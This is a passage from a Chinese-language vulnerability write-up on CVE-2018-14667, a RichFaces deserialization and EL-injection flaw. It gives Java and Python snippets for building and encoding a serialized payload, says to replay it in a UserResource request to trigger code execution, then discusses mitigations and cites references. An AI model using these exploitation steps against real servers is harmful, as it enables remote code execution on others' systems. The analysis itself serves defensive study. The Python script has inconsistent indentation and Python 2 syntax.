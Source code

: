 ```java
Class cls = Class.forName("javax.faces.component.StateHolderSaver");
Objenesis objenesis = new ObjenesisStd(true);
Object myObj = objenesis.newInstance(cls);
```
创建好序列化对象后使用下面脚本进行编码

```python
import base64
import zlib
import binascii 

def main():
	filename='payload'
	f = open(filename, "rb")
	class_data=f.read()
	hexstr = binascii.b2a_hex(class_data)
  data=zlib.compress(class_data)
  data=base64.b64encode(data).replace("+","-").replace("/","!").replace("=","_")
	print "compress:" +data
if __name__ == '__main__':
    main()
```
将compress好的数据附在UserResource请求的/DATA/后面重放请求即可触发漏洞。

#### 总结

这个漏洞算是java反序列化与EL表达式注入合体的一个比较有意思漏洞，漏洞原理及利用思路和CVE-2015-0279也基本相似。RichFaces已经停止开发，官方对受影响的产品出了补丁，给出的修复建议是 在RichFaces中禁用EL表达式或者在反序列化白名单中限制一些类反序列化，但显然这个漏洞反序列化类也是不好限制的，如果将SerializableResource从白名单中去除可能会影响系统其它地方反序列化的正常运行。要从代码层面修复漏洞只能自己编写修复个人感觉比较快速的止血方法是对资源数据加解密的方法decrypt进行修改，当然也可以对URL中包含ajax4jsf.resource.UserResource的请求进行拦截已防止漏洞攻击。

#### 参考

* [CVE-2018-14667 - RichFaces remote code execution - Red Hat Customer Portal](https://access.redhat.com/solutions/3660371)
* [Red Hat JBoss EAP RichFaces Access Control Bug Lets Remote Users Execute Arbitrary Code on the Target System - SecurityTracker](https://securitytracker.com/id/1042037)
* [Java Reflection - Constructors](http://tutorials.jenkov.com/java-reflection/constructors.html)
* [Objenesis : Twenty Second Tutorial](http://objenesis.org/tutorial.html)
* [[RF-13977] Remote Command Injection (EL Injection) - JBoss Issue Tracker](https://issues.jboss.org/browse/RF-13977)
* [Remote Code with Expression Language Injection | Dan Amodio](http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/)
* [code white | Blog: Poor RichFaces](https://codewhitesec.blogspot.com/2018/05/poor-richfaces.html)
